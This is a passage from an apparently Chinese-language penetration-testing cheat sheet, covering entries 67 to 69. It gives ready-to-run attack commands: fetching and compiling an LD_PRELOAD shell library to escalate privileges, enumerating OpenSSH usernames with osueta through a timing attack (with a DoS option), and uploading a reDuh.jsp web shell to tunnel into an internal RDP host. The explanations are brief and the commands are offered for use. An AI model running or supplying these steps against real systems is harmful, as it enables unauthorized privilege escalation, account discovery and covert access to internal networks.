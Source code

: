 
user:~$ su -
Password:
user:~# whoami
root
root:~# id
uid=0(root) gid=0(root) groups=0(root)</pre>


### 67.使用 LD_PRELOAD 注入程序

拓展学习《【Linux】LD_PRELOAD用法》： [https:// blog.csdn.net/iEearth/a rticle/details/49952047](https://link.zhihu.com/?target=https%3A//blog.csdn.net/iEearth/article/details/49952047)

> 
<pre>$ wget https://github.com/jivoi/pentest/ldpreload_shell.c
$ gcc -shared -fPIC ldpreload_shell.c -o ldpreload_shell.so
$ sudo -u user LD_PRELOAD=/tmp/ldpreload_shell.so /usr/local/bin/somesoft</pre>


### 68.针对 OpenSSH 用户进行枚举时序攻击

枚举时序攻击(“Enumeration Timing Attack”)属于侧信道攻击/旁路攻击(Side Channel Attack)，侧信道攻击是指利用信道外的信息，比如加解密的速度/加解密时芯片引脚的电压/密文传输的流量和途径等进行攻击的方式，一个词形容就是“旁敲侧击”。

osueta 是一个用于对 OpenSSH 进行时序攻击的 python2 脚本，其可以利用时序攻击枚举 OpenSSH 用户名，并在一定条件下可以对 OpenSSH 服务器进行 DOS 攻击。

> 
<pre>// 项目地址：https://github.com/c0r3dump3d/osueta
$ ./osueta.py -H 192.168.1.6 -p 22 -U root -d 30 -v yes
$ ./osueta.py -H 192.168.10.22 -p 22 -d 15 -v yes –dos no -L userfile.txt</pre>


### 69.使用 ReDuh 构造合法的 HTTP 请求以建立 TCP 通道

ReDuh 是一个通过 HTTP 协议建立隧道传输各种其他数据的工具。其可以把内网服务器的端口通过 http/https 隧道转发到本机，形成一个连通回路。用于目标服务器在内网或做了端口策略的情况下连接目标服务器内部开放端口。

项目地址： [https:// github.com/sensepost/re Duh](https://link.zhihu.com/?target=https%3A//github.com/sensepost/reDuh)

> 
<pre>// 步骤 1
// 上传 reDuh.jsp 目标服务器
$ http://192.168.10.50/uploads/reDuh.jsp


// 步骤 2
// 在本机运行 reDuhClient 
$ java -jar reDuhClient.jar http://192.168.10.50/uploads/reDuh.jsp


// 步骤 3
// 使用 nc 连接管理端口
$ nc -nvv 127.0.0.1 1010


// 步骤 4
// 使用隧道转发本地端口到远程目标端口
[createTunnel] 7777:172.16.0.4:3389
